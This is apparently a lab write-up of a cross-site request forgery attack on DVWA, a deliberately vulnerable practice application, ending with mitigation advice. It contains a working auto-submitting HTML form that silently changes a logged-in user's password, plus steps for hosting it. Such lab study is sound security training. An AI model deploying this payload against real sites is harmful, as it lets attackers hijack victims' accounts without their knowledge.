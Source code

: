 # 🚨 CSRF Attack on DVWA (GET Method) — Penetration Testing Report 🕵️‍♂️

## 🎯 Overview
 This report demonstrates a successful Cross-Site Request Forgery (CSRF) attack on the Damn Vulnerable Web Application (DVWA). The attack exploits the password change functionality via the GET method to change the user's password without their knowledge.

## 🎯 Target Details
* Application: Damn Vulnerable Web Application (DVWA)

* Vulnerability Type: CSRF

* Vulnerable Endpoint: /vulnerabilities/csrf/ (Password Change)

* HTTP Method: GET

* Security Level: Low (⚠️ intentionally weak for testing)


## ⚙️ Attack Description
At Low security level, DVWA lacks proper CSRF protections, allowing a malicious webpage to submit a crafted GET request to change the user’s password.

The attack relies on:

The user being logged in with a valid session cookie

A hidden form automatically submitting on page load, sending the password change request silently

## 🛠 Attack Setup & Execution
1. Preconditions:

User is authenticated

DVWA Security Level set to Low

2. Malicious HTML File (csrf-attack.html):

<!DOCTYPE html>
<html>
  <body onload="document.forms[0].submit()">
    <form action="http://localhost/DVWA/vulnerabilities/csrf/" method="GET">
      <input type="hidden" name="password_new" value="hacked123">
      <input type="hidden" name="password_conf" value="hacked123">
      <input type="hidden" name="Change" value="Change">
      <input type="submit" value="Submit">
    </form>
  </body>
</html>

![csrf attack.html](Screenshots/csrf-attack.html.png)

3. Hosting the File:

The file was placed in the web server directory (e.g., /var/www/html/) to ensure the browser sends session cookies.

The file was accessed via http://localhost/csrf-attack.html.

4. Attack Execution:

* The logged-in user visits the malicious page.

* The form automatically submits, !silently changing the user’s password to hacked123.

![Pass Changed](Screenshots/PassChanged.png)

## ✅ Proof of Concept
Directly visiting the URL below (while logged in) successfully changed the password:

The malicious csrf-attack.html also changed the password automatically without user interaction.

## 🛡 Mitigation Recommendations
* Implement CSRF tokens on all sensitive forms to prevent forged requests

* Use POST method instead of GET for sensitive operations like password changes

* Set cookies with proper SameSite=Strict or Lax attributes

* Increase DVWA security level to Medium or High in real environments

## 📝 Conclusion
This test clearly shows how missing CSRF protections pose serious risks to web applications. Proper implementation of anti-CSRF tokens and secure cookie policies is essential to prevent such attacks.


